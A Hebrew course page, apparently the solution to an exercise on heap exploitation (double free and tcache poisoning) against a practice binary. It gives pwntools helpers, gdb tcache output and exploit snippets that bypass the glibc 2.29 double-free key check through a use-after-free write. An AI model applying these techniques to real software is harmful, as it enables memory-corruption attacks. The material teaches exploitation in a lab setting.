

repository: AmitPinchasi/amittech · page: מחקר-חולשות/7 - ניצול הHeap/7.3 - שחרור כפול וtcache poisoning/7.3 - שחרור כפול וtcache poisoning - פתרון/index.html · generator: mkdocs

## פתרון - שחרור כפול וtcache poisoning

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי וה-exploit המלא. כל הכתובות וה-offset-ים בפלט מתייחסים ל-libc ספציפי (libc-2.31 מ-Ubuntu 20.04, ובהמשך libc-2.35 מ-Ubuntu 22.04). אצלכם הם יהיו שונים - **תמיד תמדדו בעצמכם ב-gdb** ותשלפו סמלים מה-libc שלכם, לעולם אל תעתיקו offset עיוור.

נגדיר קודם את פונקציות העזר שמדברות עם התפריט. נשתמש בהן בכל התרגילים:

```python
from pwn import *

context.binary = elf = ELF('./tc')
libc = ELF('./libc.so.6')

def start():
    return process('./tc')

def menu(p, opt):
    p.sendlineafter(b'> ', str(opt).encode())

def alloc(p, i, sz, data=b'\n'):
    menu(p, 1)
    p.sendlineafter(b'idx: ',  str(i).encode())
    p.sendlineafter(b'size: ', str(sz).encode())
    p.sendafter(b'data: ', data)

def free(p, i):
    menu(p, 2)
    p.sendlineafter(b'idx: ', str(i).encode())

def edit(p, i, data):
    menu(p, 3)
    p.sendlineafter(b'idx: ', str(i).encode())
    p.sendafter(b'data: ', data)

def view(p, i, n):
    menu(p, 4)
    p.sendlineafter(b'idx: ', str(i).encode())
    return p.recv(n)
```

### פתרון תרגיל 1 - מיפוי ה-tcache

מריצים תחת gdb, מקצים שני צ'אנקים `0x50` ומשחררים:

```text
pwndbg> tcachebins
tcachebins
0x60 [  2]: 0x5555555592a0 -> 0x555555559240 <- 0x0
```

הצ'אנק ששוחרר אחרון (`0x...2a0`, שהיה idx 1) נמצא בראש, ואחריו idx 0 (`0x...240`). זו רשימת LIFO. הסתכלות על הזיכרון:

```text
pwndbg> x/4gx 0x555555559240
0x555555559240: 0x0000555555559290  0x0000555555559010
                \_ next (fd)          \_ key == address of tcache_perthread_struct
```

שדה ה-`next` של idx 0 מצביע ל-idx 1, ושדה ה-key (`0x...010`) מצביע לתחילת ה-heap, שם יושב `tcache_perthread_struct`. זה בדיוק המבנה מההרצאה: `next` ב-offset 0, `key` ב-offset 8.

### פתרון תרגיל 2 - בדיקת המפתח של 2.29 ועקיפתה

שחרור כפול נאיבי:

```python
p = start()
alloc(p, 0, 0x50, b'A'*8)
free(p, 0)
free(p, 0)
print(p.recvall(timeout=2).decode(errors='replace'))
```

הפלט:

```text
free(): double free detected in tcache 2
```

זה מגיע מההשוואה `e->key == tcache` בזמן השחרור השני: מכיוון שהשחרור הראשון כתב `key = tcache`, glibc מזהה את הצ'אנק כבר ברשימה וקורס. עכשיו העקיפה - דורסים את שדה ה-key לפני השחרור השני:

```python
p = start()
alloc(p, 0, 0x50, b'A'*8)
free(p, 0)                 # bin: [0], key = tcache
edit(p, 0, b'\x00'*16)     # next stays 0 (was NULL), key -> 0  (different from tcache)
free(p, 0)                 # passes! key != tcache, the check doesn't trigger
```

בדיקה ב-gdb מראה עכשיו `count = 2` באותו bin, עם הצ'אנק מצביע על עצמו - כלומר שחרור כפול מוצלח. שמרנו את 8 הבתים הראשונים (ה-`next`, שהיה ממילא NULL) וכתבנו אפס על ה-key בלבד.

למה זה עבד: הבדיקה של 2.29 היא נקודתית - היא סומכת על שדה ה-key בתוך הצ'אנק. כל שליטה בכתיבה לצ'אנק המשוחרר (UAF) מאפשרת לזייף אותו. אם אין UAF edit, המסלול החלופי הוא fastbin dup (`free(a); free(b); free(a)` אחרי מילוי ה-tcache).
